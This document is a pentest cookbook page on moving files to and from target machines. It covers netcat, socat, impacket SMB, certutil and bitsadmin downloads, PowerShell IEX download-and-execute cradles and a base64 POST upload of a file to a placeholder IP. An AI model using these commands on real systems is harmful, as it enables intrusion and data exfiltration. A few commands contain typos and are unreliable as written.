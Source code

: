 ```yaml
---
layout: default
title: Moving Files Around
parent: COOKBOOKS
has_children: false
has_toc: false
---
```


{% include toc.html %}

## Local web server
```
// Python 2
python -m SimpleHTTPServer

// Python3
python3 -m http.server
python3 -m http.server <port>
python3 -m http.server --bind 172.x.x.x 443
python3 -m http.server --bind 172.x.x.x --directory tools/ 443
```

See [this link](https://floatingoctothorpe.uk/2017/receiving-files-over-http-with-python.html) for creating a `http.server` that accepts `PUT` requests. Use with something like:

```
curl -X PUT -T file-to-upload http://<IP>:<port>/
```

<br />

## Local FTP server
```
// Python 3
python3 -m pyftpdlib
python3 -m pyftpdlib --interface=172.x.x.x -p4433
python3 -m pyftpdlib --interface=172.x.x.x -p4433 -username=user --password='pass' --directory=tools/ --verbSMB server
```

<br />

## Local SMB server
```
Main issue is trying to bind Windows to a non-standard port number. Running on the standard port requires sudo which is a pain.
// Sudo required for access to lower port.
sudo impacket-smbserver -username user -password pass -smb2support Shared tools/

// Sudo not required for higher port, this proves troublesome for Windows though.
impacket-smbserver -username user -password pass -port 4343 -smb2support Shared tools/
```

<br />

## Netcat
Note there are multiple implementations of Netcat: netcat, ncat and nc to name a few.

```
// On sender.
nc -q0 10.x.x.x 4343 < file.in
compress -c file.in | nc -q0 10.x.x.x 4343

// On receiver.
nc -lp 4343 > file.out
nc -lp 4343 | uncompress > file.out
```

<br />

## Socat
```
// On sender.
socat -u FILE:file.in TCP:10.x.x.x:4343

// On receiver.
socat -u TCP-LISTEN:4343 OPEN:file.out,creat,trunc
```

<br />

## Secure Copy
Assumes ssh access.

```
// Copy file from target to local folder.
scp user@10.x.x.x:file.in /local/folder/

// Copy directory from target to local folder.
scp -r user@10.x.x.x:/remote/folder /local/folder/

// Copy local file to remote target.
scp file.local user@10.x.x.x;/remote/folder/

// Copy local folder to remote target.
scp -r /local/folder/ user@10.x.x.x /local/folder/

// Copy remote file to remote target.
scp from-user@10.x.x.x:/source/folder/ to-user@10.y.y.y:/dest/folder/ 
```

<br />

## Windows certutil.exe
```
// Windows wget equivalent.
certutil -urlcache -f http://10.x.x.x:port/file.ext outfile.exe
```

<br />

## Windows BITS
```
// Download resource from web server or SMB share.
bitsadmin /transfer n http://10.x.x.x:443/file.exe C:\Users\Public\Downloads\file.exe
```

<br />

## PowerShell
### DownloadString
```
// Download and execute in memory using Invoke-Expression (IEX).
IEX(New-Object Net.WebClient).DownloadString('http://10.x.x.x:80/resource.ps1')

// Download and execute in memory using IEX.
(New-Object Net.WebClient).DownloadString('http://10.x.x.x:80/resource.ps1') | IEX
```

### DownloadFile
```
// Download and save file locally.
(New-Object Net.WebClient).DownloadFile('http://10.x.x.x:80/resource.ps1', "C:\Users\Public\Downloads\resource.ps1")
```

### Invoke-WebRequest
```
// Download.
Invoke-WebRequest http://10.x.x.x:80/resource.ps1 -OutFile resource.ps1

// Download and execute in memory.
Invoke-WebRequest http://10.x.x.x:00/resource.ps1 | IEX

// Download, ignore IE not having been run errors
Invoke-WebRequest http://10.x.x.x:80/resource.ps1 -UseBasicParsing | IEX

// Upload to POST enabled HTTP server.
$data = [System.Convert]::ToBase64String((Get-Content -Path 'C:\Users\Public\Downloads\dir.txt' -Encoding Byte))
Invoke-WebRequest -Uri http://10.x.x.x:80 -Method POST -Body $data
```

### Start-BitsTransfer
```
// Import the module.
Import-Modile bitstransfer

// Download.
Start-BitsTransfer -Source "http://10.x.x.x/file.exe" -Destination "C:\Users\Public\Downloads\file.exe"

// Upload (check the available options for this).
Start-BitsTransfer "C:\Users\Public\Downloads\file.exe" -Destination "http://10.x.x.x/file.exe" -TransferType Upload
```

### Windows Misc
```
// Test for the following aliases:
curl
wget 
```

<br />

## Evil-WinRM
```
// Upload local file to remote.
*Evil-WinRM* PS C:\> Upload local.file remote.file

// Download remote file to local.
*Evil-WinRM* PS C:\> Download remote.file local.file
```

## Misc
If you have a shell and the files are small, you can convert them to `base64` and copy/paste between windows.

